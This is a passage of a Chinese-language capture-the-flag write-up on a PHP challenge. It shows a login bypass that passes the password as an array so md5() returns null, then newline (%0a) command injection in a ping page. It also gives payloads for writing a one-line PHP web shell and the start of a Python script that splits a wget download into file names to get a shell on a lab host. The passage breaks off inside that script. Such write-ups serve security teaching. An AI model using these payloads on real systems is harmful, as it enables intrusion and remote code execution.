 43.  `?>`

d_addslashes 函数相当于全局过滤，不存在注入漏洞、且数据库与web都是UTF-8编码，也不存在宽字节注入。根据提示，在$row[0] === $password处存在逻辑漏洞。

输入username为不存在用户时，$result为null，从而row[0]为null。password经过md5()函数处理，当参数不为string时会返回null，因此。设置参数“password=1”为“password[]=1”使MD5参数由本来的字符串变为数组即可。便可以绕过验证。

**0x02 命令执行**

验证通过后会跳转到一个展示页面，通过查看源代码，会发现存在ping.php在注释行当中，访问后，来到页面：

![](img/ce3c3f5b964cf6562b0a87c320672b57.png)

既然可以执行ping，那么很可能会存在命令注入。

页面对ip格式进行了正则匹配，最小长度输入为1.1.1.1。后面加入分隔符；& |等，无法正常执行命令,经过测试会发现，程序对& ; | ) ( ` $进行了过滤。但是没有对%0a进行过滤。尝试进行命令注入如下1.1.1.1%0awhoami

![](img/91a615648a59d3de27ac16e7278125aa.png)

尝试写入最短的shell <?=`$_GET(1)`; 但是写入失败，1.1.1.1%0aecho+"shell <?=`$_GET(1)`; ">1.php提示长度错误。分开写的话还是无法成功。鼓捣了半天发现运行权限和文件权限不一样，(可以通过ls -la 和whoami判定)apache是www-data用户，文件夹属于ctf权限。后来发现upload文件夹是775，正好两个账户同属于ctf用户组。于是最小的命令为1.1.1.1%0aecho+"1">upload/1.php，显然还是超了。

后来查询资料，可以借鉴http://wonderkun.cc/index.html/?p=524的七个字符长度任意命令注入。总体思路是通过>xx创建空文件，把wget命令分段写入文件名中，再通过ls到bash脚本中执行wget从而getshell

当前题目与其不同的地方是当前目录无法写入，长度限制在8-25之间，需要写入js等子目录。于是通过修改上述代码，进行自动化写入：

1.  `# -*- coding UTF-8 -*-`

2.  `import requests`

4.  `def getshell():`

5.  `uri = "http://192.168.1.101:8084/ping.php"`

6.  `header = {`

7.  `"Cookie": "PHPSESSID=6o7trs1airh18ea8s3u5npj626",`

8.  `"Content-Type": "application/x-www-form-urlencoded"`

9.  `}`

11.  `download = ["1.php", "8083\ -O\ \\", "7.0.0.1:\\", "wget\ 12\\"]`
